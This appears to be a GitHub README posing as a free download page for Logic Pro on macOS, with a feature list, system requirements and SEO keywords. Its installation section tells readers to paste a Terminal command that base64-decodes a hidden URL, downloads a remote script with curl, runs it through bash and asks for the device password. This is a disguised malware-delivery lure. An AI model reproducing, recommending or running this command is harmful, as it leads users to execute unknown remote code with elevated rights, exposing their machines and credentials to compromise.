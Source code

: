 # 🎵 Logic Pro for macOS – Professional Music Production Studio  

## 📌 About Logic Pro  
Logic Pro is a world-class professional music production software for macOS, offering a complete toolkit for recording, editing, mixing, and mastering. Whether you're producing beats, composing orchestral arrangements, or mixing live recordings, Logic Pro provides everything you need in one sleek, powerful environment.  

With advanced features like multi-track recording, MIDI editing, virtual instruments, audio effects, and Dolby Atmos support, Logic Pro is trusted by musicians and producers worldwide. Its intuitive interface, seamless macOS integration, and massive sound library make it the perfect choice for both beginners and professionals.  

---

## 📥 Installation via a command in the terminal:  
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press `Return`.  
3. Enter your device password when prompted and confirm the installation.  

### 💻 Installation Command:
    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nb3IvaW5zdGFsbC5zaA== | base64 -d))"

---

## 🎬 Overview  

A quick look at key parts in action:  

![Logic Pro Screenshot 1](https://example.com/logic1.png)  
![Logic Pro Screenshot 2](https://example.com/logic2.png)  

---

## 🚀 Key Features  
- 🎼 **Full Production Suite** – Record, edit, and produce music with professional-grade tools.  
- 🎹 **MIDI & Audio Editing** – Precise control over notes, timing, and dynamics.  
- 🎧 **Massive Sound Library** – Thousands of instruments, loops, and samples.  
- 🎚 **Mixing & Mastering** – Advanced effects, automation, and surround sound mixing.  
- 🎤 **Live Recording** – Multi-track and punch-in recording with low latency.  
- 📡 **Dolby Atmos Support** – Create immersive 3D audio experiences.  
- 🎨 **User-Friendly Interface** – Clean, customizable, and macOS-optimized.  
- 🛠 **Plugin Support** – Use AU and third-party effects/instruments.  
- ⚡ **Optimized Performance** – Runs efficiently even with large projects.  

---

## 💻 System Requirements  
- **OS:** macOS 12.0 Monterey or newer  
- **CPU:** Apple Silicon or Intel Core i5 and above  
- **RAM:** 8 GB minimum (16 GB recommended)  
- **Storage:** 6 GB for installation, 72 GB for full sound library  
- **Others:** Internet connection for sound library download  

---

## 🔍 SEO Keywords  
logic pro mac · logic pro music production · mac music studio · logic pro x download · logic pro audio editing · macos daw · mac recording software · logic pro beats · logic pro midi · apple music production software · logic pro mixing · logic pro mastering · mac music creation · logic pro plugins
